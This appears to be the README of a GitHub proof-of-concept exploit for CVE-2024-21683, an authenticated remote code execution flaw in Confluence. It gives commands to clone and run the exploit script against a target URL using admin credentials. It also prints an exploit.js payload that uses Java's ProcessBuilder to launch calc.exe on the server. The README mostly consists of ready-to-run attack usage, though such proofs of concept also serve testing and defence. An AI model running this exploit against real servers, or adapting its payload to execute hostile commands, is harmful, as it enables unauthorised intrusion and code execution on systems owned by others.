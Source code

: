 # CVE-2024-21683-RCE

# Credit

>https://x.com/realalphaman_  

>https://realalphaman.substack.com/p/quick-note-about-cve-2024-21683-authenticated  

# Usage

```shell
git clone https://github.com/W01fh4cker/CVE-2024-21683-RCE
cd CVE-2024-21683-RCE
pip install requests bs4
python CVE-2024-21683.py -u http://192.168.198.1:8090 -au admin -ap admin -f exploit.js -n test -p http://127.0.0.1:8083
```

![](https://cdn.jsdelivr.net/gh/W01fh4cker/blog_image@main/image-20240523170746510.png)

`exploit.js`:

```java
new java.lang.ProcessBuilder["(java.lang.String[])"](["calc.exe"]).start()
```

